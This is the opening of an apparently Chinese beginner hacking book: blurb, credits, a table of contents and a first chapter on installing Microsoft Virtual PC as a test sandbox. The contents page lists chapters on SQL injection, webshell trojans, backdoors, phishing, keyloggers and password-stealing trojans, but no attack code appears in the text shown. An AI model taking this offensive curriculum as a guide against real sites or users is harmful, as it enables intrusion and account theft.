# 傻瓜黑客黄

## ——菜鸟轻松学攻防

光盘+手册：22.00元

- 跟着黑客学会玩“虚”的：菜鸟初识虚拟机搭建与沙盘的应用
- 入侵流程之常用命令：熟知各种常用命令，让小菜们的入侵更简单
- 注入分析与详解：让菜鸟们用最短的时间、最便捷的方式了解注入原理
- 中木马就是一句话的事：从装载到实战，让一句话木马的使用更得心应手
- 玩黑客怎能不学VB：比教科书更易上手的讲解，让小菜们学VB更轻松
- 那些年我们一起中招过的黑客程序：钓鱼、病毒在移动设备传播、U盘记录器等案例让电脑更安全




## 黑客X档案

WWW.HACKERXFILES.NET

## 傻瓜黑客

## ——菜鸟整夜学攻防

作者：陈智、黄占秋、曹伯广

## 黑客X档案

WWW.HACKERXFILES.NET


黑龙江文化电子音像出版社

## 致谢

感谢我的父母，感谢养育我多年的父母对我的理解与关心。

感谢多年以来陪伴着我们成长的《黑客X档案》，它让我们从一位对安全无知的懵懂少年转变成了自由安全操纵人。

感谢黑客X档案安全团队，感谢它让我从实践中获得更多的知识。

感谢zeif、Faust、bk747780、小龙、鸟叔、DragonEgg、黑色风筝等在学习当中默默地帮助我、鼓励我成长。

感谢与我一起学习和参与本书编著的朋友：葛占弛、phping、rices、txcbg、双面人。

## 新手入门篇

- 第一章 虚拟环境搭建 ................................ 010
  - 1.1 虚拟机搭建及使用 ............................ 010
    - 1.1.1 虚拟机简介 .............................. 010
    - 1.1.2 开始安装 ............................... 011
    - 1.1.3 安装操作系统 ............................ 012
  - 1.2 沙盘搭建及使用 .............................. 014
    - 1.2.1 沙盘简单介绍 ............................ 014
    - 1.2.2 沙盘安装 ............................... 015
    - 1.2.3 沙盘使用 ............................... 016

- 第二章 常用命令入门 ................................ 019
  - 2.1 Ping命令 .................................. 019
    - 2.1.1 Ping .................................. 019
  - 2.2 Ipconfig命令 ............................... 023
    - 2.2.1 Ipconfig参数介绍 ........................ 023
    - 2.2.2 Ipconfig使用实例 ........................ 024
  - 2.3 ARP ....................................... 024
    - 2.3.1 介绍 ................................... 024
    - 2.3.2 使用 ................................... 025
  - 2.4 Net & Netstat .............................. 025
    - 2.4.1 Net命令 ................................. 025
    - 2.4.2 Netstat命令 ............................. 031
    - 2.4.3 Telnet .................................. 033

- 第三章 网络安全入门 ................................. 034
  - 3.1 踩点 ....................................... 034
  - 3.2 简单的注入原理（入门篇）..................... 037
    - 3.2.1 什么是注入 .............................. 037
    - 3.2.2 注入攻击的分类 .......................... 037
    - 3.2.3 一个注入攻击实例 ........................ 037
    - 3.2.4 注入的防御 .............................. 044
  - 3.3 PHP手工注入详解（初级篇）.................... 045
    - 3.3.1 MySQL基础语句讲解 ....................... 045
    - 3.3.2 注入 .................................... 048
    - 3.3.3 Union ................................... 054
    - 3.3.4 猜表名 .................................. 056
    - 3.3.5 猜字段 .................................. 058
    - 3.3.6 Load_file ............................... 060
    - 3.3.7 Into outfile ............................ 061
    - 3.3.8 Insert into注入 ........................ 062
    - 3.3.9 magic_quotes_gpc=ON篇 ................... 065
    - 3.3.10 PHP+MySQL注入防御篇 .................... 067
  - 3.4 一句话木马 .................................. 068
    - 3.4.1 一句话木马原理 .......................... 069
    - 3.4.2 社区超市入侵动网论坛 .................... 071
    - 3.4.3 一句话木马入侵未知网站 .................. 071
    - 3.4.4 网站配置文件插马——MY动力管理系统 ........ 071
    - 3.4.5 一句话木马的防范 ........................ 073
    - 3.4.6 WebShell提权 ........................... 073
    - 3.4.7 给服务器安装后门以及防御 ................ 076
  - 3.5 系统安全设置 ................................ 083
  - 3.6 简单的跨站 .................................. 089

- 第四章 打造电脑的安全防线 ............................ 099
  - 4.1 加强电脑系统安全的重要性和紧迫性 .............. 099
  - 4.2 安装安全的操作系统 ............................ 101
  - 4.3 VMware+Shadow Defender ...................... 102
  - 4.4 下载的安全 .................................... 110
  - 4.5 USB存储设备的安全 ............................ 110
  - 4.6 安装软件的安全 ................................ 111
  - 4.7 注意打补丁 .................................... 111
  - 4.8 做好备份 ...................................... 112
  - 4.9 加密 .......................................... 112

## VB基础篇

- 第一章 VB简单基础 .................................. 114
  - 1.1 Sub过程与Function函数 ....................... 114
    - 1.1.1 Sub过程 ................................ 114
    - 1.1.2 Sub过程的参数操作 ...................... 115
  - 1.2 数据 .......................................... 116
    - 1.2.1 变量与常量 .............................. 117
    - 1.2.2 数据类型 ................................ 118
    - 1.2.3 类型转换 ................................ 120
    - 1.2.4 运算符 .................................. 121

- 第二章 控制结构 ...................................... 123
  - 2.1 IF语句和Goto跳转 ............................ 123
  - 2.2 For循环 ...................................... 124
  - 2.3 Select Case语句 ............................ 125
  - 2.4 While语句 .................................... 126

- 第三章 控件 .......................................... 128
  - 3.1 控件的属性 .................................... 128
    - 3.1.1 Label控件 ............................... 128
    - 3.1.2 TextBox控件 ............................. 129
    - 3.1.3 Command控件 ............................. 129
    - 3.1.4 ListBox控件 ............................. 129
    - 3.1.5 Timer控件 ............................... 130
  - 3.2 控件的事件 .................................... 130
  - 3.3 自定义控件 .................................... 131
  - 3.4 控件的移植 .................................... 133

- 第四章 文件 .......................................... 134
  - 4.1 文件操作 ...................................... 134
  - 4.2 文件读写 ...................................... 135
    - 4.2.1 文件的打开与关闭 ........................ 135
    - 4.2.2 文件函数 ................................ 135
    - 4.2.3 文件读写函数 ............................ 136
  - 4.3 文件属性操作 .................................. 136
  - 4.4 文件读写程序实例 .............................. 137
  - 4.5 CommonDialog控件 ............................. 139
  - 4.6 注册表 ........................................ 140

- 第五章 FSO（文件操作）............................... 142
  - 5.1 文件操作常用方法 .............................. 142
  - 5.2 Folder对象与File对象 ........................ 144

- 第六章 函数 .......................................... 146
  - 6.1 系统函数 ...................................... 146
    - 6.1.1 字符串函数 .............................. 146
    - 6.1.2 MsgBox .................................. 146
  - 6.2 API函数 ...................................... 148
    - 6.2.1 GetWindowText .......................... 149
    - 6.2.2 FindWindow .............................. 151
    - 6.2.3 PostMessage ............................. 152
    - 6.2.4 GetForegroundWindow ..................... 153

- 第七章 黑客程序小训
  - 7.1 钓鱼程序 ...................................... 155
    - 7.1.1 邮件收信方式 ............................ 155
    - 7.1.2 空间收信方式 ............................ 157
  - 7.2 病毒的移动设备传播 ............................ 159
  - 7.3 键盘记录器 .................................... 161
  - 7.4 传统盗号木马设计 .............................. 173

beginner's

## BEGINNER'S

## 新手入门篇

### 第一章 虚拟环境搭建

#### 1.1 虚拟机搭建及使用

“铃……”，一阵上课铃响起，又是新学期的开始。

“同学们好！”
“老师好！”

新学期的开始，我们来学习一下计算机安全的基础。学攻必学防，攻防是不可缺少的。好了，现在我们来学习第一章的内容：测试平台搭建。

“为什么要搭建测试平台呢？”小A同学突然站起来提问，我耐心地为其解答：“因为我们在测试木马、测试软件的时候，难免会发生一些小意外，从而使计算机原有的资源遭到破坏。如果计算机存储有重要数据，那个损失就大了。”

##### 1.1.1 虚拟机简介

同学们，经过对测试平台的简单了解，现在我们就开始学习虚拟机安装与使用。我们需要准备的工具有以下：

- **Microsoft Virtual PC**
- **系统镜像文件**

Virtual PC可以在你的电脑中同时模拟多台电脑进行操作，所模拟的电脑和真实的电脑一样。操作系统你可以安装DOS、Windows 95、Windows 98、Windows Me、Windows 2000、Windows XP、Windows Server 2003、UNIX、Linux等等。因为Microsoft Virtual PC CPU使用率比VMware要低，因此我选择Microsoft Virtual PC来讲解给大家。

在这里我建议使用Windows XP SP3的系统镜像，顺便提醒下大家最好不要使用不知名论坛封装的Ghost操作系统，因为此类系统存在很大的安全隐患。下面是一则Ghost系统的报告（图1），来源于网络：

| 编号 | 木马 | 广告程序 | 可疑插件 | 木马清除个数 | 广告程序清除个数 | 插件卸载 |
|---|---:|---:|---:|---:|---:|---|
| 乙 | 5 | 4 | 2 | 1 | 全部清除 | 可以 |
| （行2） | 5 | 4 | 0 | 1 | 全部清除 | 不可以 |
| 丙 | 5 | 5 | 1 | 2 | 全部清除 | 不可以 |

图1

大家也可以使用一些知名论坛封装的系统，比如番茄花园、深度、雨木林风等等，当然有正版的安装光盘就是最好不过了。

安装前我们需要了解一下安装虚拟操作系统对电脑硬件的要求，主要还是在于内存。在虚拟机中运行操作系统时，会额外占用物理内存，比如：XP额外占用128MB，VISTA额外占用512MB，2000额外占用256MB等等。所以建议大家采用大一点的内存，1G或者2G。

好了，我们准备好这些东西后就开始安装吧！

> **小知识：**  
> 物理内存，在应用中自然是顾名思义，物理上其实存在的、插在主板内存槽上的内存条容量大小。有计算机配置的时候，主要看的就是这个物理内存。

##### 1.1.2 开始安装

我们从光盘中找到“VirtualPC2007sp1H.rar”，此文件包含着两个子文件，一个为Microsoft Virtual PC原版安装包，另一个则为Microsoft Virtual PC的汉化包。我们所采用的是2007SP1版本，把它解压到桌面，双击安装主程序“setup.exe”，打开如图2所示。

我们直接按“Next（下一步）”来到“协议授权”窗口，然后勾选“I accept the terms in the license agreement（我接受许可协议中的条款）”，点击下一步，如图3。







来到“准备安装”窗口，填写上我们的组织名和用户名，并勾选上“Anyone who uses this computer（All Users）（所有用户安装）”，点击“Next（下一步）”来到“准备安装”窗口。此时我们需要注意的是选择安装路径，建议大家不要选择系统所在的磁盘，虚拟机所产生的一些文件会占用该磁盘，从而导致系统运行缓慢、卡机死机等现象。在这里我就选择D盘，因为D盘有足够大的空间，我空出一个盘来单独存放虚拟机，如图4所示。



选择D盘后我们点击“OK”，然后返回到“准备安装”窗口，再点击“Install（安装）”。此时它就自动开始安装了，我们稍待片刻，就可以看到安装成功的窗口了。我们点击“Finish（完成）”就可以了，如图5所示。

由于Microsoft Virtual PC是英文版的，所以我们需要一个汉化语言包。我已经打包提供给大家了，安装方法也很简单：我们打开汉化语言包程序，点击“下一步”，勾选“我同意‘许可协议’中的条款”，然后点击两个“下一步”，到“选择目标位置”窗口。在这里的目标位置必须与虚拟机所安装的路径一致，否则无法汉化成功，如图6所示。





然后点击“下一步”并取消一些没有用处的插件，点击“安装”就安装成功了。我们重新打开虚拟机，看到成功汉化了，如图7所示。

##### 1.1.3 安装操作系统

小A同学：“终于到安装系统了，可累死我了，我上课都想打瞌睡了。”

“别急啊！我们一步步来，心急吃不了热豆腐。”

我们在“Virtual PC控制台”中点击“新建”来新建一个虚拟机，则来到“新建虚拟机向导”窗口，继续点击“下一步”选项窗口。这里有三个选项：“创建一台虚拟机”“使用默认设置创建一台虚拟机”“添加一台已存在的虚拟机”。因为我们是第一次创建，所以我建议大家选择第一项（如图8所示），因为这一项可以根据大家的电脑配置来适当地调整虚拟机的内存，从而使虚拟机运行更流畅。然后点击“下一步”，来到虚拟机名称与位置设置窗口，位置大家可以选择虚拟机所在的目录，点击“下一步”，来到选择操作系统窗口。因为我们安装的是Windows XP SP3，所以在这里我们就直接选择Windows XP（如图9所示）；如果是安装其他系统就选择对应的系统。点击“下一步”，在这里Virtual PC已经为我们设置好内存了，所以直接点击“下一步”就可以了。

下一步则是来到硬盘选项，我们选择使用“一个新的虚拟硬盘”并点击“下一步”。在磁盘大小中我们可以留默认值，点击“下一步”之后，就成功地建立了一个虚拟机。小A问道：“是不是直接按启动我们就可以玩虚拟机了？嘻嘻。”

“囧……我们还没有安装系统呢。”

我们打开虚拟机并点击“启动”，如图10。



